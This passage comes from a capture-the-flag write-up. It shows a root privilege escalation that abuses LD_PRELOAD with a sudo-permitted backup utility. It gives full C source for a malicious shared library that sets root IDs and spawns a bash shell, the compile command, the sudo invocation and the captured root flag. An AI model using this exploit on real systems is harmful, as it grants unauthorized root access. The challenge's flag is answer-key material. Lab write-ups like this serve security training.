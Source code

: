 
Knowing all this, we can get a root shell by doing this:

1. Creating a malicious `exploit.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BOLD "\033[1m"
#define RED  "\033[31m"
#define RESET "\033[0m"

void _init() {
    fprintf(stderr, BOLD RED"[+]" RESET" Unsetting LD_PRELOAD\n");
    unsetenv("LD_PRELOAD");

    fprintf(stderr, BOLD RED"[+]" RESET" Setting EUID/EGID to 0\n");
    if(setgid(0) < 0) { 
        perror("setgid"); 
        _exit(1); 
    }
    if(setuid(0) < 0) { 
        perror("setuid"); 
        _exit(1); 
    }
    
    fprintf(stderr, BOLD RED"[+]" RESET" Spawning root shell!\n");
    system("/bin/bash -p");
    fprintf(stderr, BOLD RED"[!]" RESET" Shell execution failed!\n");
    _exit(0);
}
```

2. Compiling it:

```
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```

3. Executing the Binary with LD_PRELOAD

```
sudo LD_PRELOAD=./exploit.so /usr/bin/sky_backup_utility
```

Once we use it, we get a root shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502161151.png)

Let's get root flag and finish the CTF:

```
root@sky:/tmp# cat /root/root.txt
3a62d897c40a815ecbe267df2f533ac6
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502161303.png)

